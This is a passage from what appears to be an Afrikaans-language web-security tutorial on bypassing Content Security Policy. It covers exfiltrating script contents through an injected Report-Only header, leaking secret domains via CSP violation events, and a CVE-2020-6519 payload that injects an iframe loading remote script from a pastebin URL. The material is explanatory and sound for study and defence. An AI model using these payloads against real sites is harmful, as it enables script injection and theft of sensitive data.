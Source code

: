 As jy daarin slaag om die bediener te laat reageer met die kop **`Content-Security-Policy-Report-Only`** met 'n **waarde wat deur jou beheer word** (miskien as gevolg van 'n CRLF), kan jy dit laat wys na jou bediener en as jy die **JS-inhoud** wat jy wil ekfiltreer met **`<script>`** omhul en omdat dit hoogs waarskynlik `unsafe-inline` nie toegelaat word deur die CSP nie, sal dit 'n **CSP-fout** veroorsaak en 'n deel van die skrip (wat die sensitiewe inligting bevat) sal na die bediener gestuur word vanaf `Content-Security-Policy-Report-Only`.

Vir 'n voorbeeld [**kyk na hierdie CTF-skrywe**](https://github.com/maple3142/My-CTF-Challenges/tree/master/TSJ%20CTF%202022/Nim%20Notes).

### [CVE-2020-6519](https://www.perimeterx.com/tech-blog/2020/csp-bypass-vuln-disclosure/)
```javascript
document.querySelector("DIV").innerHTML =
'<iframe src=\'javascript:var s = document.createElement("script");s.src = "https://pastebin.com/raw/dw5cWGK6";document.body.appendChild(s);\'></iframe>'
```
### Inligting Lek met CSP en Iframe

- 'n `iframe` word geskep wat na 'n URL wys (kom ons noem dit `https://example.redirect.com`) wat deur CSP toegelaat word.
- Hierdie URL lei dan na 'n geheime URL (bv. `https://usersecret.example2.com`) wat **nie toegelaat** word deur CSP nie.
- Deur na die `securitypolicyviolation` gebeurtenis te luister, kan 'n mens die `blockedURI` eienskap vasvang. Hierdie eienskap onthul die domein van die geblokkeerde URI, wat die geheime domein lek waarnatoe die aanvanklike URL gelei het.

Dit is interessant om op te let dat blaaiers soos Chrome en Firefox verskillende gedrag het in die hantering van iframes met betrekking tot CSP, wat kan lei tot die potensiële lek van sensitiewe inligting as gevolg van ongedefinieerde gedrag.

'n Ander tegniek behels die benutting van die CSP self om die geheime subdomein af te lei. Hierdie metode maak staat op 'n binêre soekalgoritme en die aanpassing van die CSP om spesifieke domeine in te sluit wat doelbewus geblokkeer is. Byvoorbeeld, as die geheime subdomein uit onbekende karakters bestaan, kan jy iteratief verskillende subdomeine toets deur die CSP-riglyn aan te pas om hierdie subdomeine te blokkeer of toe te laat. Hier is 'n snit wat wys hoe die CSP opgestel kan word om hierdie metode te fasiliteer:
```markdown
img-src https://chall.secdriven.dev https://doc-1-3213.secdrivencontent.dev https://doc-2-3213.secdrivencontent.dev ... https://doc-17-3213.secdriven.dev
```
Deur te monitor watter versoeke geblokkeer of toegelaat word deur die CSP, kan 'n mens die moontlike karakters in die geheime subdomein beperk, uiteindelik die volle URL onthul.

Albei metodes benut die nuanses van CSP-implementering en gedrag in blaaiers, wat demonstreer hoe blykbaar veilige beleide onbedoeld sensitiewe inligting kan lek.

Trick from [**here**](https://ctftime.org/writeup/29310).

<figure><img src="../../images/image (3).png" alt=""><figcaption></figcaption></figure>

Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!
